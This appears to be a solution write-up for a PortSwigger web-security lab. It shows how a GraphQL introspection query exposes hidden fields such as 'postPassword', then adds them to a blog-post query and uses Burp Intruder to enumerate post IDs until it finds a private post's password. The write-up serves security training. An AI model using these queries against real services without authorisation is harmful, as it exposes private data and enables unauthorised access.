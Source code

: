 ----

### Lab description

The blog page for this lab contains a hidden blog post that has a secret password. To solve the lab, find the hidden blog post and enter the password.

We recommend that you install the InQL extension before attempting this lab. InQL makes it easier to modify GraphQL queries in Repeater, and enables you to scan the API schema.

For more information on using InQL, see [Working with GraphQL in Burp Suite](https://portswigger.net/burp/documentation/desktop/testing-workflow/session-management/working-with-graphql).

### Lab Solution

- Use the introspection query bellow: 

```
{"query":"query IntrospectionQuery {\n  __schema {\n    queryType {\n      name\n    }\n    mutationType {\n      name\n    }\n    subscriptionType {\n      name\n    }\n    types {\n      ...FullType\n    }\n    directives {\n      name\n      description\n      args {\n        ...InputValue\n      }\n    }\n  }\n}\n\nfragment FullType on __Type {\n  kind\n  name\n  description\n  fields(includeDeprecated: true) {\n    name\n    description\n    args {\n      ...InputValue\n    }\n    type {\n      ...TypeRef\n    }\n    isDeprecated\n    deprecationReason\n  }\n  inputFields {\n    ...InputValue\n  }\n  interfaces {\n    ...TypeRef\n  }\n  enumValues(includeDeprecated: true) {\n    name\n    description\n    isDeprecated\n    deprecationReason\n  }\n  possibleTypes {\n    ...TypeRef\n  }\n}\n\nfragment InputValue on __InputValue {\n  name\n  description\n  type {\n    ...TypeRef\n  }\n  defaultValue\n}\n\nfragment TypeRef on __Type {\n  kind\n  name\n  ofType {\n    kind\n    name\n    ofType {\n      kind\n      name\n      ofType {\n        kind\n        name\n      }\n    }\n  }\n}\n"}
```

- Look at the structure of the `__schema` and search for `password`

![](/static/img/Pasted_image_20230703161321.png)

- Click on any post, and look at the request

![](/static/img/Pasted_image_20230703161424.png)

- Insert the "hidden" params from the `__schema`  `isPrivate` and `postPassword`: 
  
  ```
  {"query":"\n    query getBlogPost($id: Int!) {\n        getBlogPost(id: $id) {\n            image\n            title\n            author\n            date\n            isPrivate\n        postPassword\n}\n    }","operationName":"getBlogPost","variables":{"id":3}}

  ```

- Use intruder to iterate over the ID's

![](/static/img/Pasted_image_20230703161952.png)

- When you found the "hidden" post, look at the response and search for password.

- Copy the password from response and past at the header lab

![](/static/img/Pasted_image_20230703161052.png)
